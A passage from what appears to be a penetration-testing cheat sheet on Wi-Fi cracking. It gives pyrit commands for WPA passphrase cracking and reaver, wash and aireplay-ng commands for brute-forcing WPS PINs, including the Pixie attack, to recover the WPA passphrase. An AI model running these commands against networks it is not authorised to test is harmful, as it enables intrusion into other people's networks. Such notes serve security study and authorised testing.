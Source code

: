 ```
   pyrit -i <wordlist> import_passwords                                      ## import word list to crack WPA password in pyrit with database mode                         
   pyrit -e <ESSID> create_essid                                             ## adding the ESSID of the access point to the pyrit database
   pyrit batch                                                               ## creating PMKs for ESSID
   pyrit -r <capture_file> -b <AP_MAC> attack_db                             ## cracking WPA password in database mode with pyrit
   
   
```

Before trying to crack WPA find out if WPS is enabled, which is easier to crack

### WPS
Method to authenticate to WPA without the passphrase, only with a 8 character ping. It can be cracked faster because of its length, and once obtained, the WPA/WPA2 passphrase can be automatically recovered.

Requirements (hard to find nowadays)
- WPS must be enabled
- WPS must be using ``pin authentication`` and not PBC (Push Button Configuration). With option, a physical button in the router must be pushed to activate the use of WPS for some time interval. PBC usually is active by default in modern routers, or WPS is directly disabled by default.

```bash
# Find APs with WPS activated (exit with ctrl-C)
wash --interface wlan0mon  
wash -i wlan0mon  
# scan 5GHz band
wash -i wlan0mon -5
# The Lck column says if WPS is locked (sometimes WPS gets locked after some failed attempts). WPS version 2 includes mitigations against brute force, but depending on the implementation it may only slow it down.

# The next command brute forces WPS pins, online cracking similar to hydra (-vvv for verbose, --no-associate if we have previously associated with aireplay-ng --fakeauth)
reaver -b <AP bssid> -i wlan0mon -v
reaver --bssid <AP bssid> --channel <AP channel> --interface wlan0mon -vvv --no-associate

# Pixie attack (-K), faster than the regular brute force, but doesn't always work, depends on the AP PRGA 
reaver -b <AP BSSID> -i wlan0mon -v -K

# When the previous command is sent it stays waiting if we are not associated with the AP. We can do it with aireplay, so that the AP doesn't ignore the future packets that we will send (instead of 0 we can use a certain number of seconds to be associated)
sudo aireplay-ng --fakeauth 30 -a <AP bssid> -h <our own MAC> wlan0mon
```
Reaver outputs the WPS pin if it can find it, and thanks to it it also retrieves the passphrase (WPA-PSK), which we can use to connect to the network. Even if it finds it, it's an slow attack, it can take a few hours to complete, depending on the router AP configuration and the value of the pin (if it's one of the last ones reaver tries)
